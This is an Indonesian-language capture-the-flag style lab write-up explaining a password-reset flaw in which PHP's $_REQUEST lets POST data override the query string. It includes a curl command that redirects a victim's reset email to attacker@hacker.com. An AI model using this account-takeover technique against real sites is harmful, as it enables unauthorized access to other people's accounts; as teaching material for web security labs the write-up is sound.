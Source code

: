 Dalam aplikasi, akun pengguna diambil menggunakan string kueri, tetapi kemudian, dalam logika aplikasi, email pengaturan ulang kata sandi dikirim menggunakan data yang ditemukan dalam variabel PHP `$_REQUEST`.

Variabel PHP `$_REQUEST` adalah array yang berisi data yang diterima dari string kueri dan data POST. Jika nama kunci yang sama digunakan untuk string kueri dan data POST, logika aplikasi untuk variabel ini lebih menyukai data POST daripada string kueri, jadi jika kita menambahkan parameter lain ke formulir POST, kita dapat mengontrol di mana reset kata sandi email akan terkirim.

`curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`

![](images/ss_04_7.png)

Untuk langkah selanjutnya, kita harus membuat akun di bagian Acme IT support customer section, hal itu akan memberi kita alamat email unik yang dapat digunakan untuk membuat support ticket. Alamat email dalam format {username}@customer.acmeitsupport.thm
